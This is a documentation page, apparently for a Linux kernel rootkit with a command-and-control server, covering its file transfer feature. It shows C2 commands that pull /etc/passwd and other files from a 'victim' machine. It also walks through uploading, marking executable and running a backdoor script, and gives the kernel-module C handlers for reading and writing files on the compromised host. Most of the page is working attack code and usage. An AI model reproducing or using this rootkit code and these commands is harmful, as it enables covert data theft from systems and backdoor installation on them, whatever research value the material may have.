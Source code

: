 ```yaml
---
title: "File Transfer"
description: "Upload and download files between C2 server and victim system"
icon: "download"
date: "2025-05-25T00:00:00+01:00"
lastmod: "2025-05-25T00:00:00+01:00"
draft: false
toc: true
weight: 511
---
```


# File Transfer

Transfer files between the C2 server and victim system using direct content transmission.

## How It Works

### Upload Process
1. **C2 reads local file** and sends content
2. **Rootkit receives** filename and content
3. **Creates file** on victim system using `filp_open()`
4. **Writes content** using `kernel_write()`

### Download Process
1. **C2 requests file** by path
2. **Rootkit opens file** using `filp_open()`
3. **Reads content** using `kernel_read()`
4. **Sends content** back to C2 server

## Upload Feature

### Basic Usage
```bash
# Upload file to specific path
c2-server$ upload Client-1 ./config.txt /etc/myapp/config.txt
# ✓ File uploaded successfully (1024 bytes)

# Upload to current directory (uses basename)
c2-server$ upload Client-1 ./script.sh
# ✓ File uploaded successfully (512 bytes) -> ./script.sh
```


### Implementation Details
- **File creation**: Uses `O_WRONLY | O_CREAT | O_TRUNC` flags
- **Permissions**: Files created with 0644 permissions
- **Size limits**: 10MB maximum file size

## Download Feature

### Basic Usage
```bash
# Download to specific local path
c2-server$ download Client-1 /etc/passwd ./victim_passwd
# ✓ File downloaded successfully (2048 bytes)

# Download to current directory (uses basename)
c2-server$ download Client-1 /etc/hostname
# ✓ File downloaded successfully (64 bytes) -> ./hostname
```


## Real Examples

### System Files
```bash
# Download system configuration
c2-server$ download Client-1 /etc/passwd
# ✓ File downloaded successfully (2048 bytes)
# Content: root:x:0:0:root:/root:/bin/bash
#          daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
#          ...

# Download network configuration
c2-server$ download Client-1 /etc/hosts
# ✓ File downloaded successfully (256 bytes)
# Content: 127.0.0.1	localhost
#          127.0.1.1	victim
#          ...
```


### Upload Scripts
```bash
# Upload a shell script
c2-server$ upload Client-1 ./backdoor.sh /tmp/backdoor.sh
# ✓ File uploaded successfully (1024 bytes)

# Make it executable (via exec command)
c2-server$ exec Client-1 chmod +x /tmp/backdoor.sh
# Exit code: 0

# Run the script
c2-server$ exec Client-1 /tmp/backdoor.sh
# Exit code: 0
# Output: Backdoor installed successfully
```


## Technical Implementation

### Upload Handler
```c
static int handle_upload(const char *data)
{
    char *filename, *file_content, *separator;
    struct file *file;
    loff_t pos = 0;
    ssize_t bytes_written;
    
    // Parse filename:content format
    separator = strchr(data, ':');
    *separator = '\0';
    filename = data;
    file_content = separator + 1;
    
    // Validate filename
    if (!validate_filename(filename))
        return send_error("Invalid or unsafe filename");
    
    // Create and write file
    file = filp_open(filename, O_WRONLY | O_CREAT | O_TRUNC, 0644);
    bytes_written = kernel_write(file, file_content, content_length, &pos);
    filp_close(file, NULL);
    
    return send_success("File uploaded successfully");
}
```

### Download Handler
```c
static int handle_download(const char *data)
{
    struct file *file;
    loff_t file_size, pos = 0;
    char *file_content, *result_buffer;
    ssize_t bytes_read;
    
    // Open file
    file = filp_open(data, O_RDONLY, 0);
    if (IS_ERR(file))
        return send_error("File not found or cannot be opened");
    
    // Check file size
    file_size = i_size_read(file_inode(file));
    if (file_size > MAX_FILE_SIZE) {
        filp_close(file, NULL);
        return send_error("File too large to download");
    }
    
    // Read file content
    file_content = vmalloc(file_size + 1);
    bytes_read = kernel_read(file, file_content, file_size, &pos);
    file_content[bytes_read] = '\0';
    
    // Format response
    result_buffer = vmalloc(file_size + 32);
    snprintf(result_buffer, file_size + 32, "DOWNLOAD:%s", file_content);
    
    return send_result(result_buffer);
}
```

## Configuration

```c
// rootkit/core/config.h
#define MAX_FILE_SIZE (10 * 1024 * 1024)  // 10MB
#define MAX_FILENAME_LENGTH 255
```